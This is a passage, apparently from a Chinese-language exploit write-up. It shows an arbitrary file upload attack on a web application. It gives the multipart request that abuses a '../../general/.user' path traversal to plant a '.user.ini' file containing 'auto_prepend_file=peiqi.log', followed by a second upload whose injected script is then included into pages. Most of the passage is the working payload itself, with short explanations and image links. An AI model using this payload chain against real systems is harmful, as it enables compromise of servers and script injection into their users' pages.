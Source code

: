 ```plain

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/.user** 为上传路径

```plain
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
```

这里拼接后上传就变成了 **.user.ini**

![image-20220209111339894](./images/202202091113999.png)

这里再上传 XSS文件 **peiqi.log** 被包含进去

![image-20220209111358294](./images/202202091113385.png)